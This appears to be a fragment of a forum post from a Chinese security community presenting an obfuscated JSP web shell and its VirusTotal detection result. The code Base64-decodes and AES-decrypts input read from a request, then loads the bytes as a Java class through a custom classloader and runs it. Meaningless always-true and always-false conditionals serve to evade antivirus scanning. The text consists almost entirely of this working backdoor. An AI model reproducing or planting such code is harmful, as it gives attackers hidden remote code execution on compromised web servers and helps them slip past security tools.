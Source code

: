 ```jsp
            if (2124124 &lt; 1182){
                readLine = "pageContext";
            }else{
                readLine = reader.readLine();
            }
            byte[] decode = getByte(readLine);
            byte[] bytes;
            if (2020101 == 2020101){
                bytes = c.doFinal(decode);
            }
            run(u, bytes).equals(pageContext);

        }
    }
%&gt;
&lt;%!
    public ClassLoader getClassLoader(){
        Object o = this;
        Class&lt;?&gt; aClass = o.getClass();
        ClassLoader classLoader = aClass.getClassLoader();
        return classLoader;
    }

    public byte[] getByte(String readline){
        return Base64.getDecoder().decode(readline);
    }

    public Object run(UUAND u, byte[] bytes){
        try {
            return u.g(bytes).newInstance();
        } catch (Exception e) {
            e.printStackTrace();
        }

        return null;
    }

    public void go(Cipher c, String k){
        try {
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        } catch (InvalidKeyException e) {
            e.printStackTrace();
        }
    }
%&gt;
```

vt查杀结果：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-c9566f5baa8a9900c70f59abf410a40ba2b9eaa6.png)
